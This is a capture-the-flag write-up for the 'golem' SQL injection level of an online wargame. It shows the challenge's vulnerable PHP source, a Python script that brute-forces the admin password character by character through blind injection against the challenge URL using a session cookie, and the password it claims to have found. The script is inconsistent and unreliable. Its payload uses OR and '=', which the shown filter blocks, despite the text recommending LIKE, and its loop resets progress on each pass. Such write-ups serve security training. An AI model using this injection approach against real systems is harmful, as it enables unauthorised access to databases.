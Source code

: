 
#  GOLEM
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```
Using %% which denotes to match the character which is present at any position in the password.Using LIKE instead of =.

***
```
import requests
import string
characters = string.ascii_letters + string.digits
session = {
    "PHPSESSID": "dovaradinkdstego4urhvano2"
}
dbpass = ""
for i in range(1, 9):
    dbpass = ""
    for char in characters:
        paran = {
            "pw": f"OR LEFT(pw, {i}) = '{dbpass + char}' -- "
        }
        response = requests.get("https://los.rubiya.kr/chall/golem_60e5b360795c119588e4f3a86c5dd494.php", params=paran, cookies=session)
        output = response.text
        if "Hello admin" in output:
            dbpass += char
            break
print("Password:", dbpass)
```

###### password:77d6290b
 ***
####   query : select id from prob_golem where id='guest' and pw='77d6290b'.
***
